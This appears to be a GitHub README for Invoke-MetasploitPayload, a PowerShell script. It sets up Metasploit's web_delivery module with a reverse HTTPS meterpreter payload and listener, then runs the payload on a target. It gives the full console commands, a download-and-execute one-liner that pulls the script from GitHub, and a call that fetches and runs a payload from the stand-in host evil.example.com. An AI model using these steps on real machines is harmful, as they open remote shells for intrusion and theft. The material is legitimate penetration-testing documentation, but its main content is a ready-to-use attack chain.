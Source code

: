 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery Metasploit module
The web_delivery Metasploit module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```

By default, the module will generate a random string to be used as the URL for the script webserver. You can specify your own with the URIPATH variable.

```
set URIPATH posh-payload
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```

Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://0.0.0.0:8080/posh-payload
[*] Local IP: http://10.211.55.4:8080/posh-payload
[*] Server started.
```

#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. If you specified a URIPATH, this will be something like `http://[IP_OF_METASPLOIT_INSTANCE]/[URIPATH]` else it will have random characters for the URL (`http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM_CHARACTERS]`).

This URL is what you'll pass to `Invoke-MetasploitPayload`. 

_**You can ignore the line about "Run the following command on the target machine"**_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, first execute the PS1 file.

```
PS> Invoke-Expression (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/jaredhaight/Invoke-MetasploitPayload/master/Inv
oke-MetasploitPayload.ps1")
```

Then just pass the URL from the web_delivery module to Invoke-MetasploitPayload. It will handle spinning up a new process and then downloading and executing the script.
```
PS> Invoke-MetasploitPayload "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
